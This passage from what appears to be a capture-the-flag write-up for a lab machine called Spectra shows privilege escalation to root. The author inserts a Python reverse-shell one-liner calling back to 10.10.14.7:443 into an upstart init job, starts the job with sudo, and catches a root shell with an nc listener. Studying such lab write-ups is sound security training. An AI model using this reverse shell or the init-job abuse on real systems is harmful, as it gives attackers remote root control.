 
The service runs my added code as root.

### Shell

To get a shell, I'll replace the `id` line with the same reverse shell I
used earlier:



    script

        exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        export HOME="/srv"
        echo $$ > /var/run/nodetest.pid
        exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

    end script



Now I'll start the service:



    katie@spectra /etc/init $ sudo initctl start test
    test start/running, process 51446



And get a shell as root:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:44926.
    # id
    uid=0(root) gid=0(root) groups=0(root)



And `root.txt`:



    # cat root.txt
    d4451971************************







